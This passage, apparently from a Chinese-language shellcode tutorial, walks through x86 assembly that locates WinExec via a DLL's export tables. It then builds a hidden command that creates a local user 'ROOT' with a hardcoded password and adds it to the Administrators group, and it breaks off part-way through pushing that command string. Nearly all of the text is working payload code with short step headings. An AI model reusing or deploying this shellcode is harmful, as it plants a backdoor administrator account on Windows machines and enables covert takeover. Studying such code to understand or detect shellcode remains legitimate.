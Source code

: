     ```
    get_export_ordinal_table:
    mov ecx, [ebx+0x24] ; ECX = RVA ExportOrdinalTable
    add ecx, eax        ; ECX = &ExportOrdinalTable
    push ecx
    ```
    - 根据导出表地址，获取导出地址表的地址，并压入栈中
    ```
    get_export_addr_table:
    mov edi, [ebx+0x1C] ; EDI = RVA ExportAddrTable
    add edi, eax        ; EDI = &ExportAddrTable
    push edi
    ```
    - 将`WinExec`函数名字符串压入栈中
    ```
    WinExec_String:
    push 0x456E6957 ; EniW
    ```
    - 在导出名字表里查找`WinExec`函数名,找到后获取函数地址，并存储在 EBX 中
    ```
    counter_init:
    xor eax, eax    ; EAX = Counter

    searchLoop:
    mov edi, edx    ; EDI = &ExportNameTable
    mov esi, esp    ; ESI = "WinE"
    xor ecx, ecx
    cld                  ; Process strings left to right
    mov edi, [edi+eax*4] ; EDI = RVA NthNameString
    add edi, [esp+0xC]   ; EDI = &NthNameString
    add cx, 0x4          ; ECX = len("WinE")
    repe cmpsb           ; compare [&NthNameString] to "WinExec"
    jz found             ; If [&NthNameString] == "WinExec" end loop
    inc eax              ; Counter ++
    jmp short searchLoop ; restart loop

    found:
    mov ecx, [esp+0x8]     ; ECX = &ExportOrdinalTable
    mov ax,  [ecx + eax*2] ;  AX = ordinalNumber
    mov edx, [esp+0x4]     ; EDX = &ExportAddrTable
    mov ebx, [edx + eax*4] ; EBX = RVA WinExec
    add ebx, [esp+0xC]     ; EBX = &WinExec
    ```
    - 添加用户操作，将命令字符串压入栈中，调用`WinExec`函数打开命令行，使用命令行执行命令
    ```
    add_user:
    ; Call WinExec( CmdLine, ShowState );
    ; $CmdLine = 'cmd.exe /c net user ROOT I@mR00T$ /ADD && net localgroup Administrators ROOT /ADD'
    ; $ShowState = SW_HIDE  
    xor ecx, ecx
    mul ecx
    mov al, 0x44    ; D : 44
    push eax
    push 0x44412f20 ; DA/  
    push 0x544f4f52 ; TOOR 
    push 0x2073726f ;  sro 
    push 0x74617274 ; tart 
    push 0x73696e69 ; sini 
    push 0x6d644120 ; mdA  
    push 0x70756f72 ; puor 
    push 0x676c6163 ; glac 
    push 0x6f6c2074 ; ol t 
    push 0x656e2026 ; en & 
    push 0x26204444 ; & DD 